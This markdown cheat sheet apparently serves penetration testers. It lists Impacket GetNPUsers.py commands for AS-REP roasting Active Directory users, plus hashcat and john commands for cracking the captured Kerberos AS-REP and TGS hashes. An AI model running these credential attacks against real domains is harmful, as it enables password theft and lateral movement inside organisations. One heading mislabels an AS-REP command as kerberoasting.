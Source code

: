 
# getnpusers.py
- service: kerberos
- tactics: credential_access
- tactics: lateral_movement

## check ASREPRoast for all domain users (credentials required)
- `python GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>`

## check ASREPRoast for a list of users (no credentials required)
- `python GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>`

## check kerberoast
- `python GetNPUsers.py VICTIM-DOMAIN/ -usersfile user.txt -dc-ip <IP> -format hashcat`

## crack as_rep_response_file
> search for hashcat / john

---

# hashcat
- service: all
- tactics: credential_access

## crack as_rep_response_file (asreproast)
- `hashcat -m 18200 -a 0 as_rep_response_file passwords_file`

## crack as_rep_response_file (kerberoast)
- `hashcat -m 13100 --force TGSs_file passwords_file`

--- 

# john
- service: all
- tactics: credential_access

## crack as_rep_response_file (asreproast)
- `john --wordlist=passwords_file as_rep_response_file`

## crack as_rep_response_file (kerberoast)
- `john --format=krb5tgs --wordlist=passwords_file AS_REP_responses_file`
